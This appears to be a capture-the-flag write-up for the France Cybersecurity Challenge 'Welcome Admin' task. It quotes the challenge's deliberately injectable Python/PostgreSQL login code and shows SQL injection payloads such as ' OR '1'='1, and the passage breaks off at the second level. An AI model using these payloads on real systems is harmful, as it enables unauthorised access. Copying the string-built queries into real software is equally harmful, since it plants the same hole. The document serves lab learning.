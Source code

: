 ```yaml
---
layout: Post
type: chall
---
```

# Welcome Admin 1 & 2 ⭐

<a class="back-link" href="../../">< Go back</a>

## Description

Au coeur d'un réseau labyrinthique, là où la lumière des écrans peine à éclairer les recoins les plus sombres, une demande spéciale est lancée dans les abîmes, un appel discret, attendu seulement par ceux qui connaissent les profondeurs. Seul un véritable expert pourra répondre à l'appel, cryptiquement formulé : "Un expert en SQL est demandé à la caisse numéro 3."

<https://welcome-admin.france-cybersecurity-challenge.fr/>

all files in [resources/](./resources) were provided.

## Challenge

After looking at [welcome-admin.py](resources/src/welcome-admin.py) we can see that this challenge consits of different levels of difficulty where we have to attempt SQLi to gets flags.

Here are the different roles:

```py
class Rank(Enum):
    GUEST = 0
    ADMIN = 1
    SUPER_ADMIN = 2
    HYPER_ADMIN = 3
    TURBO_ADMIN = 4
    FLAG = 5
```

One thing to note before going any further, `;` are banned from the passwords, including them will automatically result in a 400. This is due to the check done in the decorator used for every single login page:

```py
password = request.form.get("password", "")
if ";" in password:
    return abort(400)
```

### Become Admin

<img src="assets/admin-login-page.jpg" alt="admin login page" width="800px">

First step is pretty straightforward we don't have much choice, we get a login screen and are expected to get a password.

In the backend we see the vulnerable code that verifies our authenticity:

```py
token = os.urandom(16).hex()
cursor.execute(f"SELECT '{token}' = '{password}'")
```

Let's try to attempt a very basic SQLi: `' OR 1=1'`, this results in a 500 error, I tried adapting the SQLi to keep strings as much as possible, and ended up with `' OR '1'='1` this worked!

### Become Super Admin

_Note: We get the first flag for the `Intro/Welcome_Admin_1` challenge, our flag is at the final admin account_

<img src="assets/super-admin-login-page.jpg" alt="super admin login page" width="800px">

Let's keep going, here is the code to access super admin:

```py
token = os.urandom(16).hex()
cursor.execute(
    f"""
        CREATE FUNCTION check_password(_password text) RETURNS text
        AS $$
            BEGIN
                IF _password = '{token}' THEN
                    RETURN _password;
                END IF;
                RETURN 'nope';
            END;
        $$
        IMMUTABLE LANGUAGE plpgsql;
    """
)
cursor.execute(f"SELECT  check_password('{password}')")
```

Still the same general idea but a little bit more intricate, now we have two choices, either we try to exploit the `check_password` function or we try to bypass it.

Let's first try to bypass it, this will allow us to stay in the SQLi mindset.

<!-- ') || '1'='1 -->
